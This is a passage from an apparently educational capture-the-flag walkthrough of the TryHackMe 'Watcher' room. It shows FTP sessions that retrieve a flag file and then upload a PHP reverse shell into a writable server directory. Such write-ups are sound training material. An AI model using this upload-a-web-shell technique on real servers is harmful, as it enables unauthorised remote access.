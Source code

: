 Transfer the file to the local machine and get the flag:

```
ftp> get flag_2.txt
local: flag_2.txt remote: flag_2.txt
229 Entering Extended Passive Mode (|||43660|)
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
100% |***********************************************************************|    21       10.79 KiB/s    00:00 ETA
226 Transfer complete.
21 bytes received in 00:00 (0.10 KiB/s)
```

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ cat flag_2.txt
FLAG{REDACTED}
```

## Flag 3

Prepare a reverse shell on the local machine → Transfer it through **FTP**:

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ ls -l shell.php
-rwxr-xr-x 1 kali kali 5492 Aug 29 12:36 shell.php
```

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||44682|)
553 Could not create file.
```

Oops! The current directory does not allow me to upload the shell. Let’s move into `files/`:

```
ftp> cd files
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||44027|)
150 Ok to send data.
100% |***********************************************************************|  5492       43.64 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (14.31 KiB/s)
ftp> ls -l
229 Entering Extended Passive Mode (|||45582|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001         5492 Aug 29 17:31 shell.php
226 Directory send OK.
```
